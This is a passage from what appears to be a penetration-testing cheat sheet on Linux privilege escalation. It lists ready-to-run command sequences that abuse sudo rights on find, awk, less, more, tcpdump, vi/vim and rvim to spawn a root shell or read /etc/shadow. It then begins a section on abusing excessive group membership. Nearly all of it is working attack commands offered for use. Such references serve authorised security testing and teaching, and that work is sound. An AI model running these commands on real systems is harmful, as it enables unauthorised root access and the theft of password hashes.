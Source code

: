 ```bash
sudo find / -exec bash -i \;
find / -exec /usr/bin/awk 'BEGIN {system("/bin/bash")}' ;
```

##### less

From less you can go into vi, and then into a shell.

```
sudo less /etc/shadow
v
:shell
```

##### more

You need to run more on a file that is bigger than your screen.

```
sudo more /home/pelle/myfile
!/bin/bash
```

##### tcpdump

```
echo $'id\ncat /etc/shadow' > /tmp/.test
chmod +x /tmp/.test
sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root
```

##### vi/vim

```
:shell

:set shell=/bin/bash:shell    
:!bash
```

##### rvim

```
:diffpatch $(sh <&2 >&2) 

:py import os
:py os.system("/bin/bash")
```

[Vim Issue \#1543](https://github.com/vim/vim/issues/1543)

[How I got root with sudo/](https://www.securusglobal.com/community/2014/03/17/how-i-got-root-with-sudo/)

### Abusing Excessive Groups

Often you'll find that a user has been made a member of a group that it needn't be a part of.  From this you can abuse this to either leak information or compromise the system in unintended ways.
